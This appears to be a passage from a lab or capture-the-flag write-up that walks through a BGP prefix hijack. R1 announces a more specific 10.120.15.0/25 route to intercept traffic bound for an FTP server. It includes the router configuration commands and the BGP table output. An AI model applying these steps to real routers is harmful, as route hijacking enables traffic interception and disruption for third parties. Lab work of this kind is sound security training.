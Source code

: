 + AS300 is advertising the 10.120.15.0/24 prefix.
+ Traffic to 10.120.15.10 are routed through 10.78.11.2
+ R1 is peering with two BGP neighbors, AS200 and AS300.


#### BGP Hijacking - Priviledge Escalation

From our network  recon we have got the following information:

+ There is a VIP FTP server in the 10.120.15.0/24 network.
+ AS300 was advertising the 10.120.15.0/24 prefix
+ We have full control of BGP router.
+ IP Address of FTP Server 10.120.15.10
+ We need to intercept traffic comming from 10.120.15.10 to perform our attack.


##### Prefix Hijacking Attacks

BGP always favors the shortest, most specific path to the desired IP address. In order for the BGP hijack to be successful, the route announcement must either Offer a more specific route by announcing a smaller range of IP addresses than other ASes had previously announced or Offer a shorter route to certain blocks of IP addresses.

###### Attack Plan

+ We need to advertise a route to the other(AS) stating that AS100 know how to reach the 10.120.15.0/24
+ As AS300 is advertising routes for 10.120.15.0/24 network, so we will advertise a more specific route that supersedes AS300 route and add our route to the neighour routers routing tables. This way traffic should be routed to AS100.
+ We will advertise a route with a larger prefix, we’ll advertise 10.120.15.0/25.

Lets change the configuration of R1. Add network 10.120.15.0/25

```python

r1# conf t
  conf t
  r1(config)# ip route 10.120.15.0/25 10.78.11.2
  ip route 10.120.15.0/25 10.78.11.2
  r1(config)# router bgp 100
  router bgp 100
  r1(config-router)# network 10.120.15.0/25
  network 10.120.15.0/25
  r1(config-router)# end
  end
  r1# show ip bgp
  ```
  If we check BGP routes we can confirm our 10.120.15.0/25 network is successfully added.
  
```python
  
  r1# show ip bgp
show ip bgp
BGP table version is 0, local router ID is 10.255.255.1
Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
              i internal, r RIB-failure, S Stale, R Removed
Origin codes: i - IGP, e - EGP, ? - incomplete

   Network          Next Hop            Metric LocPrf Weight Path
*> 10.78.10.0/24    0.0.0.0                  0         32768 ?
*> 10.99.64.0/24    0.0.0.0                  0         32768 ?
*  10.100.10.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
*  10.100.11.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
*  10.100.12.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
*  10.100.13.0/24   10.78.11.2                             0 300 200 i
```